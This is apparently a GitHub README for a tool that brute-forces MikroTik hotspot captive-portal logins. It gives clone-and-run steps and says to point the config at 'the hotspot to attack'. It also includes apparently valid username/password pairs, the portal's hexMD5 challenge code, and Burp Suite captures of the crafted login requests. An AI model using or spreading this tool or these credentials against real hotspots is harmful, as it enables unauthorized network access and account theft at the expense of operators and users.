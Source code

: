 ### Brute-force attack login

The attack was only tested for the users of ***1 hour***, it is necessary to see the pattern of the users of ***a month***.

## How to use this tool?

```
git clone --depth=1 https://github.com/Juvenal-Yescas/Brute-force-Mikrotik.git
```

Edit file `conf.json` change `http://localjuve.com` by the login page of the hotspot to attack (example `http://hotspotmikrotik.com`)

Execute this command.

```
$ node hck-mikro.js
```

> The `data.js` file contains the list of possible users and passwords, can generate more users and passwords using `Tools/dig-Generate-File.py`

## Analysis

----------
##### Login
Example data valid.

```
username=1hjtd
password=263
```
![alt text](https://image.ibb.co/gwR0Vp/Welcome_one.png "User 1hjtd")

```
username=1hmtw
password=423
```

![alt text](https://image.ibb.co/jCeyGU/Welcome_two.png "User 1hmtw")

##### The ip addres is this 

![alt text](https://image.ibb.co/cr4nAp/DHCP_example.png "My dchp config")

## How to attack?

The pattern is <kbd>1h</kbd> for username

```
username=1hjtd
password=263
```

> By right clicking > View source code for this page,
You can see that the values to create a secure password are changing on the function `doLogin()`, this complicates attacking directly through a direct post you plain text, the post should be done with the password already encrypted.

```
document.sendin.password.value = hexMD5('\075' + document.login.password.value + '\532\742\124\412\422\545\965\162\943\173\846\825\842\857\139\184');
document.sendin.password.value = hexMD5('\123' + document.login.password.value + '\624\077\174\275\022\150\314\272\032\201\122\170\154\311\235\102');
```

##### Capturing request with burpsuite

```
username=1hjtd&password=6e7651ee150309d7da25cb30329368e2&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=1d44ed0532a8d99b41ea8864352d9e59&dst=&popup=true
username=1hjtd&password=99b033a5dbd6ff867c265c05170e0ef1&dst=&popup=true
username=1hjtd&password=9f2611a4b2ff7f42b9e72758aeb28a52&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```
> **Note:** The password changes every time a request is made.

##### Post example to attack

```
username: 1hjtd
password: 00cfe5b8e01a385d18a29b459f349823

burpsuite capture: 

username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```

## License [![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=shield)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_shield)

[![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=large)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_large)